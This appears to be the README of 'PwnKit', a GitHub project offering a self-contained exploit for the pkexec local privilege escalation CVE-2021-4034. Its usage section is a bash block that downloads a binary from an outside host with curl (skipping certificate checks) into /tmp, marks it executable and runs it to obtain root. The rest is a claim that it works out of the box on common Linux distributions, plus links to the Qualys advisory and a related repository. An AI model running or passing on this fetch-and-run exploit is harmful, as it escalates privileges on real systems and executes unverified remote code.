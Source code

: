 # PwnKit

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
cd /tmp;
curl -fskSL x.xi.vg/lpe/pwnkit >> pwnkit;
chmod +x ./pwnkit;
./pwnkit
```

## Example

![](./imgs/example.png)

## Technical Details

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

## References

- https://github.com/arthepsy/CVE-2021-4034/
